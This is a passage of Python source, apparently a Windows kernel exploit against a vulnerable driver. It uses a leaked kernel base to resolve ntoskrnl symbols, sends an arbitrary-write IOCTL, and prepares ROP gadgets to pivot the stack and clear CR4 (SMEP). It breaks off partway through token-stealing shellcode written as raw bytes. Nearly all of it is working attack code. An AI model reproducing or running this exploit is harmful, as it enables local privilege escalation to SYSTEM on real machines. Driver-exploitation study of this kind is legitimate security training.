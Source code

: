 ```python
# Use the leaked kernel base address to calculate the address of the symbol in the running kernel
def get_kernel_symbol_addr(symbol: bytes):
    kernel_base = get_kernel_base()

    windll.kernel32.LoadLibraryA.restype = c_void_p
    handle = windll.kernel32.LoadLibraryA(b'C:\\Windows\\System32\\ntoskrnl.exe')

    if handle == -1:
        print('Failed to load ntoskrnl.exe')
        return -1

    windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
    windll.kernel32.GetProcAddress.restype = c_void_p
    addr = windll.kernel32.GetProcAddress(handle, symbol)

    return (addr - handle) + kernel_base


# Interact with the device driver using IOCTL_ARBITRARY_WRITE
def do_ioctl(handle, buffer_ptr):
    bytes_returned = c_ulong()
    buffer_len = 16

    windll.kernel32.DeviceIoControl(
        handle,
        IOCTL_ARBITRARY_WRITE,
        buffer_ptr,
        buffer_len,
        None,
        0,
        byref(bytes_returned),
        None)


def initialize_globals():
    global g_stack_pivot, g_mov_cr4_rcx_addr, g_pop_rcx_addr

    print('Initializing globals...')
    
    kernel_base = get_kernel_base()
    print('kernel_base = 0x%x' %(kernel_base))

    g_stack_pivot += kernel_base
    print('g_stack_pivot = 0x%x' %(g_stack_pivot))

    g_mov_cr4_rcx_addr += kernel_base
    print('g_mov_cr4_rcx_addr = 0x%x' %(g_mov_cr4_rcx_addr))

    g_pop_rcx_addr += kernel_base
    print('g_pop_rcx_addr = 0x%x' %(g_pop_rcx_addr))


def get_fake_stack_addr():
    FAKE_STACK_SIZE = 0xD000

    shellcode = bytearray(
        b"\x65\x48\x8b\x04\x25\x88\x01"      # mov    rax,QWORD PTR gs:0x188
        b"\x00\x00"
        b"\x48\x8b\x80\xb8\x00\x00\x00"      # mov    rax,QWORD PTR [rax+0xb8]
        b"\x48\x89\xc3"                      # mov    rbx,rax
        b"\x48\x8b\x9b\x48\x04\x00\x00"      # mov    rbx,QWORD PTR [rbx+0x448]
        b"\x48\x81\xeb\x48\x04\x00\x00"      # sub    rbx,0x448
        b"\x48\x8b\x8b\x40\x04\x00\x00"      # mov    rcx,QWORD PTR [rbx+0x440]
```